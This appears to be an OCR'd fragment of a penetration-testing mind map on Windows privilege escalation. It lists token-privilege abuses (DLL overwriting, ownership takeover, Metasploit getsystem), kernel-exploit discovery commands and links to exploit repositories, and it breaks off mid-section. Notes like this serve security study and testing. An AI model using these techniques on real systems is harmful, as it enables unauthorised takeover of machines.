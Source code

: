 		- Exploit

			- Modify service binaries
			- Overwrite DLLs used by SYSTEM processes
			- Modify registry settings

	- SeTakeOwnershipPrivilege

		- Use

			- Take ownership over an object

		- Exploit

			- Own an object and modify its ACL and grant
yourself write access
			- Then SeRestorePrivilege

	- SeDebugPrivilege

		- Exploit

			- Metasploit getsystem

	- SeTcbPrivilege
	- SeCreateTokenPrivilege
	- SeLoadDriverPrivilege

- Attack Vectors

	- Kernel

		- Detection

			- wmic qfe get Caption,Description,HotFixID,InstalledOn
			- Watson

				- URL

					- https://github.com/rasta-mouse/Watson

			- Windows Exploit Suggester

				- Commands

					- > systeminfo > \\$IP\$MY_DIRECTORY\systeminfo.txt
					- # python wes.py systeminfo.txt -i 'Elevation
of Privilege' --exploits-only | less

				- URL

					- https://github.com/bitsadmin/wesng

		- Exploitation

			- Exploit-db
			- Search for compiled binaries in SecList

				- https://github.com/SecWiki/windows-kernel-exploits

	- Services

		- Service Commands
